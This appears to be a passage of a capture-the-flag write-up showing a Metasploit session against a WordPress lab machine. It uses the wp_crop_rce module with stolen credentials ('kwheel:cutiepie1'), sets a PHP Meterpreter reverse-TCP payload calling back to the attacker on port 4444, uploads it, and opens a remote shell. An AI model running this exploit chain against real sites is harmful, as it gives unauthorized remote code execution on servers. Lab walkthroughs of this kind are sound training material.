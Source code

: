 ```
Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/wp_property_upload_exec

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) >

```

I didnt use metasploit in a while and It's kinda cool to set options again

```
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.174.85     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.226.203     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


```

Now magic

```
msf6 exploit(multi/http/wp_crop_rce) > run

[-] Handler failed to bind to 10.8.226.203:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (39282 bytes) to 10.0.2.2
[*] Attempting to clean up files...
[*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.2:32972 ) at 2022-03-26 20:04:39 +0100

meterpreter > getuid
```